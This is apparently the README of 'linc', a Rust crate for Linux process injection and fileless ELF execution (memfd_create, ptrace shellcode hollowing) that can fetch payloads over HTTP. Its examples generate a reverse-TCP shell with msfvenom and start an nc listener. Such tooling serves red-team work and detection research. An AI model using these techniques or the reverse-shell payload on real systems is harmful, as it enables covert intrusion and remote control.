 # LINC - Linux INjection Crate
`linc` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
Add `linc` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/linc.git
```

Add `linc` with the `http` to enable payload downloads via HTTP/S
```bash
cargo add --git https://github.com/dustyw0lf/linc.git --features http
```

## Features
`linc` has the following features, enabled by default:
- `http`: Adds functionality to download payloads over HTTP/S.

## Examples
Clone the repo
```bash
git clone https://github.com/dustyw0lf/linc.git
```

Change directory into `linc`
```bash
cd linc
```

### memfd
Run the memfd example with an ELF file
```bash
cargo run --example memfd_executable
```

Run the memfd example with the provided shellcode or use your own:
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

Start a listener
```bash
nc -lvnp 1234
```

Run the example
```bash
cargo run --example memfd_shellcode
```

### hollow
Run the hollow example with shellcode
```bash
cargo run --example hollow_shellcode
```

## Testing
Run tests
```bash
cargo test
```

## Documentation
Build the documentation
```bash
cargo doc --no-deps
```

The documentation will be in `target/doc/linc/index.html`.
